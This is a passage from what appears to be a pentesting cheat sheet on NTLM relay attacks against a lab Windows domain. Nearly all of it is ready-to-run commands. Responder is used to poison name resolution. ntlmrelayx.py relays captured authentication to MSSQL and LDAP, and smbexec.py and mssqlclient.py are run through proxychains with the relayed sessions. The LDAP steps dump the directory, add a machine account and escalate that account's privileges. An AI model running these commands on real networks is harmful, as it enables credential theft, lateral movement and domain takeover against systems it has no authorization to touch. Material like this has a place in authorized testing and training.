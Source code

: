 ```bash
proxychains -q smbexec.py ZENCORP/PETER@172.16.117.50 -no-pass
```

{% hint style="danger" %}
Relaying can be done using various protocols like SMB, HTTP, LDAP, SMB, MSSQL, IMAP, RPC or any other application protocol capable of transmitting NTLM authentication messages.\
\
As client: HTTP, IMAP, LDAP, MSSQL, RPC, SMBv/1/2/3, SMTP

As server: HTTP(s), RAW, SMBv/1/2/3, WCF
{% endhint %}

### <mark style="color:yellow;">NTLM Relay over MSSQL</mark>

```bash
# Setup socks proxy using mssql service
sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

# Start poisoning
python3 Responder.py -I ens192

# Connect mssql
proxychains -q mssqlclient.py ZENCORP/nports@172.16.117.60 -windows-auth -no-pass

# Direct queries
sudo ntlmrelayx.py -t mssql://ZENCORP\\NPORTS@172.16.117.60 -smb2support -q "SELECT name FROM sys.databases;"
```

{% hint style="danger" %}
Use sudo su for `ntlmrelayx.py -tf target.txt -smb2support -socks`
{% endhint %}

{% hint style="info" %}
using the `mssql://`makes `ntlmrelayx` to relay `NTLM` over `mssql` to the relay target instead of SMB.
{% endhint %}

### <mark style="color:yellow;">NTLM Relay over LDAP</mark>

```bash
# Turn off HTTP and SMB
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder/Responder.conf

# Start responder
sudo python3 Responder/Responder.py -I ens192

# Start ldap NTLM relay
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump

# Add computer
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'

# Privilege escalation
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug
```
